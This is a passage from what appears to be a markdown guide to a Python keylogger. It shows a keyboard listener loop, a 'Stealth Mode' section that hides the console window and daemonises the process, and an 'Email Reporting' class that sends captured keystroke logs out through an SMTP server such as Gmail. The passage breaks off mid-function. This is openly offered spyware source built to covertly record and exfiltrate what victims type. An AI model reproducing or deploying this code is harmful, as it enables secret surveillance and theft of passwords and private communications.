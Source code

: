 ```python
def on_release(key):
    # Stop listener on ESC
    if key == keyboard.Key.esc:
        return False

# Start listening
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Advanced Features

### Stealth Mode
```python
import os
import sys
import ctypes

def hide_console():
    """Hide console window on Windows"""
    if os.name == 'nt':
        ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)

def run_as_service():
    """Run keylogger as background service"""
    if os.name == 'posix':
        # Unix/Linux daemon
        pid = os.fork()
        if pid > 0:
            sys.exit(0)
    
    hide_console()
```

### Email Reporting
```python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

class EmailReporter:
    def __init__(self, email, password, smtp_server="smtp.gmail.com", port=587):
        self.email = email
        self.password = password
        self.smtp_server = smtp_server
        self.port = port
    
    def send_log(self, log_content):
        try:
            msg = MIMEMultipart()
            msg['From'] = self.email
            msg['To'] = self.email
            msg['Subject'] = f"Keylog Report - {datetime.now().strftime('%Y-%m-%d %H:%M')}"
            
            msg.attach(MIMEText(log_content, 'plain'))
            
            server = smtplib.SMTP(self.smtp_server, self.port)
            server.starttls()
            server.login(self.email, self.password)
            server.send_message(msg)
            server.quit()
            
```
